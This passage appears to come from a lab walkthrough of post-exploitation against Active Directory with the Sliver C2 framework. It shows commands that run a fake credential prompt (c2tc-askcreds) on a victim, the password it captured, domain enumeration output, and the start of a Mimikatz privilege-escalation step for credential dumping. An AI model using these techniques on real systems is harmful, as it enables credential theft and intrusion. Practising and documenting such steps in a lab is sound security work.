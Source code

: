     To enumerate Active Directory in the vast majority of environments, we need valid credentials. Thus, our goal is to obtain them for `lab\t.howard` or escalate to SYSTEM for credential dumping.

    *   **Method 1: Ask for them!**
        By leveraging c2tc-askscreds from https://github.com/outflanknl/C2-Tool-Collection?tab=readme-ov-file we can simply prompt the user to enter their credentials.
        Sliver makes this easy to execute through their armory extensions:
        ```sliver
        sliver (ABSENT_PRESSROOM) > armory install c2-tool-collection
        sliver (ABSENT_PRESSROOM) > c2tc-askcreds
        ```
        This presents the victim with a nice window:
        
        ![Credential Prompt GUI](https://github.com/user-attachments/assets/cf4cf71c-462b-4e19-a3e2-41b9d560343d) <!-- Updated Alt Text -->
        
        Success! 
        ```sliver
        [server] sliver (ABSENT_PRESSROOM) > c2tc-askcreds
        [*] Successfully executed c2tc-askcreds (coff-loader)
        [*] Got output:
        [+] Username: LAB\t.howard
        [+] Password: Summer2025
        ```
        Further enumeration with c2tc-domaininfo provides critical information for moving forward. Key details: Domain is `lab.local`, PDC is `\\LAB-DC01.lab.local` at `\\192.168.81.10`.
        <details>
        <summary><code>sliver (ABSENT_PRESSROOM) > c2tc-domaininfo</code> — Click to expand</summary>

        ```sliver
        [*] Successfully executed c2tc-domaininfo (coff-loader)
        [*] Got output:

        [+] DomainName:
            lab.local
        [+] DomainGuid:
            {DB630BFA-CB26-45E5-B230-4F9923E28106}
        [+] DnsForestName:
            lab.local
        [+] DcSiteName:
            Default-First-Site-Name
        [+] ClientSiteName:
            Default-First-Site-Name
        [+] DomainControllerName (PDC):
            \\LAB-DC01.lab.local
        [+] DomainControllerAddress (PDC):
            \\192.168.81.10  
        [+] NextDc DnsHostName:
            lab-dc01.lab.local
        ```
        </details>

    *   **Method 2: Dump them!**
        Using a much louder way, but with AD/EDR not in play, we can have some fun. A common fault among IT staff is that they often enjoy local admin privileges for convenience; this makes for easy pickings.
        We leverage the Mimikatz BOF extension and our confirmed `SeImpersonatePrivilege` to elevate to SYSTEM.
        <details>
        <summary><code>sliver (ABSENT_PRESSROOM) > mimikatz token::elevate</code> — Click to expand</summary>
        